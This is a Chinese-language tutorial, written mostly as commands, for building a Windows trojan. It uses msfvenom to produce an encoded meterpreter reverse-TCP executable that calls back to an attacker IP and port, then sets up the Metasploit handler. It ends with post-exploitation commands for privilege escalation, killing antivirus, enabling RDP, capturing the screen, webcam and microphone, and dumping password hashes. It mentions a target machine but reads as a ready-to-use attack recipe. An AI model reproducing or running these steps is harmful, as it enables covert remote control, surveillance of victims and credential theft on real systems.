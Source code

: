 生成木马反弹shell（Windows）

# 一、环境准备

1. MSF-Metasploit Framework
2. 一台windiows靶机

# 二、开始生成木马

1. 使用msfvenom生成木马
2. 终端内输入:   

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.70.3  LPORT=4567  -e x86/shikata_ga_nai -i 5 -f exe -o  shell.exe
```



# 三、配置监控

1. 启动msf   终端内输入：`msfconsole` 启动msf

   ![1642501758409](https://image.201068.xyz/assets/1642501758409.png)

2. 载入监控模块  msf中输入： `use exploit/multi/handler`

   ![1642501831818](https://image.201068.xyz/assets/1642501831818.png)

3. 加载payload  msf终端中输入：`set payload windows/meterpreter/reverse_tcp`

4. 配置payload  msf终端中输入：`show options`

5. 配置payload监控IP msf终端中输入： `set  lhost 192.168.70.3`

6. 配置payload监控端口  msf终端中输入：`set lport  4567` （注意这里要和木马配置时使用的端口相同&如果使用内网穿透服务填写转发后的端口）

7. 检查payload配置  msf终端中输入：`show options` 

   ![1642501934250](https://image.201068.xyz/assets/1642501934250.png)

8. 执行监控  msf终端中输入： `run`

# 四、攻击利用

1. 将木马上传到靶机

2. 在靶机上执行木马

3. 完成攻击利用

   ![1642501969373](https://image.201068.xyz/assets/1642501969373.png)



1. 查看进程：`ps`
2. 查看当前进程号：`getpid`

3. 查看**系统信息**：`sysinfo`

4. 查看目标机是否为虚拟机：

5. `run post/windows/gather/checkvm`

6. 查看完整网络设置：`route`

7. 查看**当前权限**：`getuid`

8. **自动提权**：`getsystem`

9. 关闭杀毒软件：`run post/windows/manage/killav`

10. 启动远程桌面协议：`run post/windows/manage/enable_rdp`

11. 列举当前登录的用户：

12. `run post/windows/gather/enum_logged_on_users`

13. 查看当前应用程序：

14. `run post/windows/gather/enum_applications`

15. 抓取目标机的**屏幕截图**：`load espia` ； `screengrab`

16. 获取相机设备：`webcam_list`

17. 控制拍照 ：`webcam_snap`

18. **直播摄像头**：`webcam_stream`

19.  **观看屏幕**：`run vnc`

20. 控制录音：`record_mic`

21. 查看**当前目录**：`pwd`

22. 查看当前目录：`getlwd`

23. 导出**当前用户密码哈希**  `run hashdump`
